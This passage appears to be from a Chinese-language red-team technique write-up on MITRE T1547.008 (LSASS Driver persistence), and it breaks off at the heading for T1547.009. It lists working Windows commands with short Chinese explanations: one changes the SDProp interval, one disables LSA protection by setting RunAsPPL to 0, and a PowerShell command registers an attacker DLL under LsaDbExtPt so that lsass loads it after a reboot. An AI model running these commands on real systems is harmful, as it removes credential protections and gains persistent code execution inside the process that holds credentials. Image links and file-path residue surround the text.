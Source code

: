 [![](assets/1706145586-558e0d964ffec880710bc590fdd462a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113334-5a9d5ef4-ba69-1.png)

# T1547.008 (LSASS Driver)

reg add hklm\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters /v AdminSDProtectFrequency /t REG\_DWORD /d 600  
修改 SDProp 默认启动时间，范围为 60-7200s，SDProp 是一个进程，默认启动时间是 3600s  
reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Lsa" /v "RunAsPPL" /t REG\_DWORD /d 0  
将 LSA 保护关闭，1 为开启  
powershell.exe New-ItemProperty -Path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\NTDS -Name LsaDbExtPt -Value "C:\\Users\\axingg\\Desktop\\lsass\_lib.dll"  
[![](assets/1706145586-5bd8268a47560ce7e0d4cfd830fcc243.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113443-83797704-ba69-1.png)  
重新启动即可，当然需要为启动 PPL

# T1547.009 (Shortcut Modification)

